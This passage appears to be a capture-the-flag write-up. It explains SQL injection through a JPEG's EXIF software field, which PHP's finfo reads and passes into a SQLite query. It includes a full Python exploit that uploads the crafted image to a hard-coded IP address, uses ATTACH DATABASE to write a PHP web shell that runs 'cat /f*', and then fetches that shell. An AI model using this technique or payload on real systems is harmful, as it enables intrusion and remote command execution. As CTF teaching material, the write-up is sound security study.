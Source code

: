 It's obvious that it's vulnerable to SQL injection if we can control `new finfo`. The output seems to be the same with Linux command `file`, as they depends on the `libmagic`.


Let's get some file info from my home directory:

```sh
$ find ~ -exec file {} +

...

foobar.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16, Exif Standard: [TIFF image data, little-endian, direntries=5, xresolution=74, yresolution=82, resolutionunit=2, software=GIMP 2.10.8, datetime=2019:05:10 21:21:39], baseline, precision 8, 1x1, components 3
```

Bingo! The string `GIMP 2.10.8` in EXIF data can be replaced with arbitrary text. We can execute any SQL statement now.

It's also worth to mention:

1.  PDO support multiple SQL statement
2.  SQLlite `ATTACH database` can be used to write file
3.  We have write access of the directory

Here is the payload:

```python
#!/usr/bin/env python3

import requests
import re
s = requests.session()

def sql(q):
    res = open('./1x1.jpg', 'rb').read().replace(b'GIMP', f'''
');{q};--
'''.strip().encode())
    return res

url = 'http://78.47.152.131:8000/'
s.get(url)
files = {
    'file': ('foo.jpg', open('./1x1.jpg', 'rb').read())
}
s.post(url, files=files)

qs = [
"ATTACH DATABASE 'bar.php' AS j;CREATE TABLE j.k (f text);",
"ATTACH DATABASE 'bar.php' AS j;INSERT INTO j.k (f) VALUES ('<?php system(\"cat /f*\");?>');"
]
for q in qs:
    files = {
        'file': ('foo.jpg', sql(q))
    }
    s.post(url, files=files)
    s.get(url)
    r = s.get(url)
    print(q)
    print(r.text)
path = re.findall('href="(.*)/1"', r.text)[0]
print(url + path + '/bar.php')
r = s.get(url + path + '/bar.php')
print(r.text)
```
